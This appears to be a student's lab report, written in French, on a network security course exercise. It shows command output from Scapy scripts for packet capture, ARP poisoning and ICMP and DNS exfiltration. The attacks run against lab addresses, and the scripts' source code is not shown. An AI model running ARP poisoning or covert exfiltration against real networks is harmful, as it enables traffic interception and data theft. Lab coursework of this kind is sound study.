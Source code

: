 TP4 SECU : Exfiltration

I. Getting started Scapy

🌞 ping.py
```
$ sudo python3 ping.py
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
Answers :
 - QueryAnswer(query=<IP  frag=0 proto=icmp src=192.168.56.5 dst=192.168.56.1 |<ICMP  type=echo-request |>>, answer=<IP  version=4 ihl=5 tos=0x0 len=28 id=62475 flags= frag=0 ttl=64 proto=icmp chksum=0x957e src=192.168.56.1 dst=192.168.56.5 |<ICMP  type=echo-reply code=0 chksum=0x0 id=0x0 seq=0x0 |<Padding  load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>)
```
🌞 tcp_cap.py
```
$ sudo python3 tcp_cap.py
TCP SYN ACK reçu !
- Adresse IP src : 142.250.179.78
- Adresse IP dst : 10.0.2.15
- Port TCP src : 443
- Port TCP dst : 47168
```

🌞 dns_cap.py
```
$ sudo python3 dns_cap.py
104.26.11.233 ; 172.67.74.226 ; 104.26.10.233 ;
```
```
$ dig ynov.com

; <<>> DiG 9.19.17-1-Debian <<>> ynov.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 54956
;; flags: qr rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;ynov.com.			IN	A

;; ANSWER SECTION:
ynov.com.		2	IN	A	104.26.11.233
ynov.com.		2	IN	A	172.67.74.226
ynov.com.		2	IN	A	104.26.10.233

;; Query time: 8 msec
;; SERVER: 192.168.1.1#53(192.168.1.1) (UDP)
;; WHEN: Thu Oct 24 15:52:33 CET 2024
;; MSG SIZE  rcvd: 85
```

🌞 dns_lookup.py
```
$ sudo python3 dns_lookup.py
104.26.10.233 ; 104.26.11.233 ; 172.67.74.226 ;
```

II. ARP Poisoning


🌞 arp_poisoning.py

- Depuis le pc cible :
```
$ ip a | grep 'inet ' | grep vboxnet0
    inet 192.168.56.1/24 brd 192.168.56.255 scope global vboxnet0
$ ip n s | grep 10.13.33.37
```

- Sur le pc attaquant :
```
$ ip a | grep 'inet ' | grep eth0 
    inet 192.168.10.5/24 brd 192.168.10.255 scope global dynamic noprefixroute eth0
$ sudo python3 arp_poisoning.py   
poisoning ongoing...
```

- sur le pc cible
```
$ ip n s | grep 10.13.33.37
10.13.33.37 dev vboxnet0 lladdr de:ad:be:ef:ca:fe STALE
```

III. Exfiltration ICMP

🌞 icmp_exf_send.py
```
$ sudo python3 icmp_exf_send.py 192.168.56.1 t
.
Sent 1 packets.
```
🌞 icmp_exf_receive.py
```
$ sudo python3 icmp_exf_send.py 192.168.56.5 t
.
Sent 1 packets.
```
```
$ sudo python3 icmp_exf_rcv.py
t
```
⭐ Bonus 1 easy :
```

```

IV. Exfiltration DNS

🌞 dns_exfiltration_send.py
```
$ sudo python3 dns_exfiltration_send.py 192.168.56.1 je_suis_en_train_de_faire_un_truc_et_voila
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
```